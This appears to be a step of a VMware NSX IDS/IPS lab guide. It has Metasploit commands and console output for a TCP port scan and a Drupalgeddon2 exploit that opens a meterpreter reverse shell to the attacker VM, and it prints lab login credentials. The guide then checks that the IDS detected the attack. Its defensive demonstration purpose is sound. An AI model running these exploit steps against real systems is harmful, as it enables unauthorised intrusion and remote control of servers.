 

## 6. Basic Attack Scenario
**Estimated Time to Complete: 30 minutes**

In this exercise, we will use **Metasploit** to launch a simple exploit against the **Drupal** service runnning on the **App1-WEB-TIER VM** and confirm the NSX Distributed IDS/IPS was able to detect this exploit attempt.

![](assets/images/IDPS_POC_28.gif)

**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate port-scan against the DMZ Segment**
1. Type  **sudo msfconsole** to launch **Metasploit**. Follow the below steps to initiate a portscan and discover any running services on the **DMZ** subnet. Hit **enter** between every step. 
    * Type **use auxiliary/scanner/portscan/tcp** to select the portscan module
    * Type **set THREADS 50** 
    * Type **set RHOSTS 192.168.10.0/24** to define the subnets to scan. These should match the **DMZ** Subnet
    * Type **set PORTS 8080,5984** to define the ports to scan (Drupal and CouchDB servers)
    * Type **run**

```console
vmware@ubuntu:~$sudo msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v5.0.95-dev                          ]
+ -- --=[ 2038 exploits - 1103 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try globally setting it with setg RHOSTS x.x.x.x
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set THREADS 50
THREADS => 50
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.10.0/24
RHOSTS => 192.168.10.0/24, 192.168.20.0/24
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 8080,5984
PORTS => 8080,5984
msf5 auxiliary(scanner/portscan/tcp) > run
```
2.	You should see the below results when the scan completes
```console
[*] 192.168.10.0/24:      - Scanned  28 of 256 hosts (10% complete)
[*] 192.168.10.0/24:      - Scanned  52 of 256 hosts (20% complete)
[+] 192.168.10.100:       - 192.168.10.100:5984 - TCP OPEN
[+] 192.168.10.100:       - 192.168.10.100:8080 - TCP OPEN
[+] 192.168.10.101:       - 192.168.10.101:5984 - TCP OPEN
[+] 192.168.10.101:       - 192.168.10.101:8080 - TCP OPEN
[*] 192.168.10.0/24:      - Scanned  77 of 256 hosts (30% complete)
[*] 192.168.10.0/24:      - Scanned 103 of 256 hosts (40% complete)
[*] 192.168.10.0/24:      - Scanned 129 of 256 hosts (50% complete)
[*] 192.168.10.0/24:      - Scanned 154 of 256 hosts (60% complete)
[*] 192.168.10.0/24:      - Scanned 180 of 256 hosts (70% complete)
[*] 192.168.10.0/24:      - Scanned 205 of 256 hosts (80% complete)
[*] 192.168.10.0/24:      - Scanned 233 of 256 hosts (91% complete)
[*] 192.168.10.0/24:      - Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

> **Note**: To reduce the number of OVAs needed for this PoV, each workload VM deployed runs both a vulnerable **Drupal** and a vulnerable **CouchDB** service

**Initiate DrupalGeddon2 attack against App1-WEB-TIER VM**

In order to launch the **Drupalgeddon2** exploit against the **App1-WEB-TIER VM**, you can either manually configure the **Metasploit** module, or edit and run a pre-defined script. If you want to go with the script option, skip to step #3 and continue from there. 

1. To initiate the attack manually, use the Metasploit console you opened earlier. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit** to initiate the exploit attempt
2. Skip step #3 and #4, and continue with step #5

```console

msf5 auxiliary(scanner/portscan/tcp) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
```
3. If you want to go with the script option instead, run **sudo nano attack1.rc** and type **VMware1!** when asked for the password. 
    * Confirm that the **RHOST** line IP address matches with the IP address of **App1-WEB-TIER VM** you saw in the NSX VM Inventory. 
    * Change this IP address if needed. 
    * Save your changes and exit **nano**
4. Type **sudo ./attack1.sh** to initiate the Metasploit script and Drupalgeddon exploit. Next, go to step #6
    
5. Confirm the vulnerable server was sucessfully exploited and a **Meterpreter** reverse TCP session was established from **App1-WEB-TIER VM** back to the **Extermal VM**

```console
[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Sending stage (38288 bytes) to 192.168.10.101
[*] Meterpreter session 1 opened (10.114.209.151:4444 -> 192.168.10.101:45032) at 2020-07-20 19:37:29 -0500
```
6. **Optionally**, you can now interact with the Meterpreter session. For instance, you can run the below commands to gain more inforation on the exploited **App1-WEB-TIER VM**
    * Type **sysinfo** to learn more about the running OS

```console
meterpreter > sysinfo
Computer    : 273e1700c5be
OS          : Linux 273e1700c5be 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter > ?
```
7. When you are done, type **exit -z** to shut down the Meterpreter session
8. Type **exit** to exit Metasploit

**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload
![](assets/images/IDPS_POC_13.PNG)
3. Click  **APP-1-WEB-TIER** to open a filtered event view for this workload. 
4. Confirm 2 signatures have fired; one exploit-specific signature for **DrupalGeddon2** and one broad signature indicating the use of a **Remote Code execution via a PHP script**
![](assets/images/IDPS_POC_14.PNG)
> **Note**: You can zoom in/out to specific times using the timeline slider, filter the Events view based on Severity by selecting the desired severities or filter based on other criteria such as Attacker Target, Attack Type, CVSS, Product Affected or VM Name by using the **Appl Filter** box.
5. Expand both of the events by clicking the **>** icon on the left side next to severity
6.  For the  **DruppalGeddon2** event:
  *  Confirm that the IP addresses of the attacker and victim match with the **External VM** and **APP-1-WEB-TIER VM** respectlively.
  *  click **View Intrusion History** to see details about the exploit attempts. You may see multiple attemts (from different ports) as Metasploit initiated multiple connections
  *  this event contains vulnerability details including the **CVSS score** and **CVE ID**. Click the **2018-7600** CVE link to open up the **Mittre** CVE page and learn more about the vulnerability.
7. **Optionally**, you can check the  obove details as well for the secondary event (except for the vulnerability details, which are not applicable to this more general signature)
  
> **Note**: **Product Affected** incicates the service vulnerable to the exploit a signature is detecting. In this case, you should see **Drupal_Server** as being vulnerable to the **DruppalGeddon2** exploit and **Web_server_Applications** being affected by the more generic **Remote Code Execution** attmept. 

> **Note**: **Attack Target** incicates the kind of service being attacked. This could be a client (in case of a client-side exploit), server, etc. In this case, you should see **Web_server** as the attack target for both events. 

8. In the **timeline** above, you can click the dots that represent each event to get summarized information.

You have now successfully completed a simple attack scenario ! 
In the next exercise, we will run through a more advanced scenario, in which will move the attack beyond the initial exploit against the Drupal web-frontend to a database server running on the internal network and then moving laterally once again to another database server beloging to a different application. This is similar to real-world attacks in which bad actors move within the network in order to get to the high value asset/data they are after. The NSX Distributed IDS/IPS and Distributed Firewall are uniquely positioned at te vNIC of every workload to detect and prevent this lateral movement.


Before moving to the next exercise, folow [these instructions](/docs/ClearingIDSEvents.md) to clear the IDS events from NSX Manager

---

[***Next Step: 7. Lateral Movement Scenario***](/docs/7-LateralMovementScenario.md)
